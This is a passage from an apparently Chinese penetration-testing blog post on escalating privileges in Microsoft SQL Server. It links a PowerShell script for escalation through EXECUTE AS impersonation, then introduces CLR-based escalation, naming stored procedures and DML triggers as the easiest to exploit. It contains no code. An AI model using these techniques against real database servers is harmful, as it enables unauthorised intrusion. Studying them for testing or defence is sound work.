当然这个也可以用 powershell 一键实现：[脚本地址](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1)

## [](#6-clr-%E6%8F%90%E6%9D%83)6 CLR 提权

通过回顾常见的手法，可以看出，在目标系统该做安全防护都做了的情况下，除了备份拿 shell 之外，其它的操作均需要 sysadmin 服务器角色。

对于部分常见手法的防护，网上提出了一些极端的修复方法，比如将存储过程和其相关的 DLL 文件删除，其它功能可能删除，但是删除 CLR 可能性应该不大，且不论禁用或者删除 .net 之后 SQL Server 还能不能正常运行，SQL CLR 功能强大，开发也可能使用它开发正常功能，删除无异于自废武功。

### [](#61-sql-server-clr-%E4%BB%8B%E7%BB%8D)6.1 SQL Server CLR 介绍

> 公共语言运行库 (Common Language Runtime，CLR) 是整个 .NET 框架的核心，它为 .NET 应用程序提供了一个托管的代码执行环境。它实际上是驻留在内存里的一段代理代码，负责应用程序在整个执行期间的代码管理工作，比较典型的有：内存管理、线程管理、安全管理、远程管理、即使编译、代码强制安全类检查等，这些都可以成为 .NET 框架的生命线。

通俗来讲 CLR 就是 .NET 程序运行的基础。

**SQL Server 中的 CLR**

SQL CLR 是 SQL Server2005 出现的新功能，它将 .NET Framework 中的 CLR 服务注入到 SQL Server 中，让 SQL Server 的部分数据库对象可以使用 .NET Framework 的编程语言进行开发 (目前只支持 VB.NET 和 C#)，包括存储过程、用户自定义函数、触发器、用户自定义类型以及用户自定义聚合函数等功能。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121100247.png-water_print](assets/1699408935-7adceb6330a6082431345e3742d0c3a9.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210121100247.png-water_print")

SQL Server 的 CLR 让我们可以用 C# 或者 VB 开发存储过程、用户自定义函数、触发器、用户自定义类型以及用户自定义聚合函数。但是我们最容易利用的是存储过程和触发器。触发器有 DDL 触发器和 DML 触发器两种，DDL 触发器对应的语句语句主要以 CREATE、ALTER 和 DROP 开头，DML 触发器对应的语句主要是 INSERT、UPDATE 或 DELETE，相比而言 DML 触发器更可控。

参考：

-   [https://xz.aliyun.com/t/8195](https://xz.aliyun.com/t/8195)
-   [https://github.com/aleenzz/MSSQL\_SQL\_BYPASS\_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)
-   [SQL Server 的 CLR 在渗透测试中的应用](https://data.hackinn.com/ppt/HackingDay2020online/SQL%20Server%e7%9a%84CLR%e5%9c%a8%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95%e4%b8%ad%e7%9a%84%e5%ba%94%e7%94%a8.pdf)
